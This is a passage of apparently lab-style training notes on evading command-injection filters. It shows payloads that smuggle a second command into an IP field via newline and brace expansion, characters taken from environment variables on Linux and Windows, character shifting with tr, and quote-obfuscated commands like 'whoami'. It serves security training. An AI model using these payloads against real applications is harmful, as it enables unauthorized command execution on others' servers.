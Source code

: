 ```php
127.0.0.1${LS_COLORS:10:1}${IFS}
```

### **Windows**

**%HOMEPATH%**

```
C:\htb> echo %HOMEPATH:~6,-11%

\
```

**Windows PowerShell**

```powershell
PS C:\htb> $env:HOMEPATH[0]

\

PS C:\htb> $env:PROGRAMFILES[10]

PS C:\htb>
```

## Command Shifting

```
echo $(tr '!-}' '"-~'<<<[)

\

```

## Examples

```php
127.0.0.1%0a{ls,${PATH:0:1}home}

#MEANING
127.0.0.1
ls /home
```

# **Bypassing Blacklisted Commands**

## Single and Double quotes obfuscation technique -  Windows & Linux

```bash
w'h'o'am'i

w"h"o"am"i
```
